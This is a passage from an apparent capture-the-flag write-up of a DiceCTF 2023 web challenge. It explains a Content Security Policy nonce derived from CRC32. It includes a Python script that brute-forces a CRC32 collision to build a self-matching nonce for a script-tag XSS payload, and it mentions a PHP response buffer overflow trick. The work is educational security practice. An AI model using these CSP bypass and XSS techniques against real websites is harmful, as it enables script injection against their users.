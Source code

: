 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DiceCTF-2023/images/Pasted%20image%2020230204144828.png)

When we clicked the "Submit" button, it'll send a POST request to `/web-recursive-csp`, with parameter `url` and `recaptcha_code`.

Then, it'll redirect us to `/web-recursive-csp` with GET parameter `msg` and `url`.

Maybe we could redirect the admin bot to here, and trigger an XSS payload??

But no dice.

**If you look at the source code:**
```php
strlen($_GET["name"]) < 128
```

It checks the string length is less than 128 characters or not. Why it's doing that?

According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#php-response-buffer-overload), if the response is overflowed (default 4096 bytes), it'll show a warning:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DiceCTF-2023/images/Pasted%20image%2020230204152642.png)

So, maybe the checks is preventing that?

Also, I realized that there is a thing called "Hash collision". For example, MD5 hash collision attack, where 2 MD5 hashes are the same, thus collided.

Since **CRC32B algorithm only outputs a 32-bit unsigned value**, we can very easily to brute force it.

**Let's write a simple Python script to brute force it!**
```py
#!/usr/bin/env python3

from zlib import crc32
from itertools import combinations_with_replacement

characters = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&'()*+,-./:;<=>?@[\\]^_`{|}"
counter = 1

# Hash and loop through aa, ab, ac, ...
while True:
    for character in combinations_with_replacement(characters, counter):
        crc32BeforeHashInput = "".join(character).encode('utf-8')
        crc32BeforeHashed = hex(crc32(crc32BeforeHashInput))[2:]

        crc32HashNonce = f"<script nonce='{crc32BeforeHashed}'>alert(document.domain)</script>".encode('utf-8')
        crc32HashedNonce = hex(crc32(crc32HashNonce))[2:]

        crc32HashPayloadInput = f"<script nonce='{crc32HashedNonce}'>alert(document.domain)</script>".encode('utf-8')
        crc32HashedPayload = hex(crc32(crc32HashPayloadInput))[2:]

        print(f'[*] Trying nonce: {crc32HashedNonce}, hashed: {crc32HashedPayload}', end='\r')

        if crc32HashedPayload == crc32HashedNonce:
            print('\n[+] Found collided hash!')
            print(f'[+] Before hashed 1: {crc32HashNonce.decode()}')
            print(f'[+] Before hashed 2: {crc32HashPayloadInput.decode()}')
            print(f'[+] After hashed 1: {crc32HashedNonce}')
            print(f'[+] After hashed 2: {crc32HashedPayload}')
            # exit()
    else:
        counter += 1
```